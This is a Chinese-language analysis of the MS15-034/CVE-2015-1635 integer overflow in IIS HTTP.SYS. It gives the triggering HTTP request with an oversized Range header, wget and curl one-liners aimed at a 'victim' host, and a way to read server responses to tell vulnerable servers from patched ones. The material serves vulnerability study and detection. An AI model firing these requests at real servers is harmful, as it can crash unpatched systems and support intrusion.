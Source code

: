 # MS15-034/CVE-2015-1635 远程代码执行漏洞分析

## 漏洞重现

结合Pastebin网站上贴出的信息（http://pastebin.com/ypURDPc4）

和微软公告，我们知道这是一个位`于HTTP.SYS`中的`整数溢出漏洞`，根据Pastebin网站的python代码，我们知道通过给IIS服务器发送这样格式的HTTP请求，就可以触发（检测）这个漏洞：
```
GET / HTTP/1.1
Host: stuff
Range: bytes=0-18446744073709551615
```
我们直接使用`wget或curl`工具，也可以直接测试这个漏洞，例如使用如下命令行：
```
wget 127.0.0.1 –debug –header=”Range: bytes=0-18446744073709551615″
```
curl版本:
```
 curl  -H"Range: bytes=18-18446744073709551615"  victim/welcome.png 
```



此处`18446744073709551615`转为十六进制即是 `0xFFFFFFFFFFFFFFFF`(16个F），是64位无符号整形所能表达的最大整数，那么我们很容易可以想到，这个“`整数溢出`”必然同这个异常的超大整数有关。

Pastebin上POC的作者提供的检测工具代码认为，如上请求包，若IIS服务器返回

“`Requested Range Not Satisfiable`”
> 请求的范围不能满足

则是存在漏洞，否则如果返回

”`The request has an invalid header name`“，
> 请求的头名无效
则说明漏洞已经修补。



